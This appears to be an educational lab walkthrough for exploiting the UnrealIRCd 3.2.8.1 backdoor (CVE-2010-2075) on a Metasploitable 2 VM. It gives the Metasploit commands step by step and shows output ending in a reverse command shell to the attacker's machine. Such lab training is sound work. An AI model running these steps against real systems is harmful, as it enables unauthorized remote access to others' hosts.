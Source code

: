 # UnrealIRCd backdoor [CVE-2010-2075]

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Search for the appropriate module

`search unreal_irc`

```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

### 3. Use the module

`use exploit/unix/irc/unreal_ircd_3281_backdoor`

### 4. Check the module options

`options`

```
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

View the full module info with the info, or info -d command.
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

### 6. Show possible payloads

`show payloads`

```
Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   3   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   5   payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   7   payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   8   payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   9   payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   10  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   11  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

### 7. Select the payload

`set PAYLOAD payload/cmd/unix/reverse`

```
PAYLOAD => cmd/unix/reverse
```

### 8. Show options for payload

`show options`

```
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.8.142    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)

Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

View the full module info with the info, or info -d command.
```

### 9. Fill the options for the payload

`set LHOST 192.168.8.147`

```
LHOST => 192.168.8.147
```

### 10. Run the exploit

`exploit`

```
[*] Started reverse TCP double handler on 192.168.8.147:4444 
[*] 192.168.8.142:6667 - Connected to 192.168.8.142:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.8.142:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 2deEA9aiYAIk24Xy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "2deEA9aiYAIk24Xy\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.8.147:4444 -> 192.168.8.142:36910) at 2023-03-28 07:36:16 -0400
```

# Video

Video that resumes everything on this laboratory.

![](assets/unrealIRC.gif)

# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.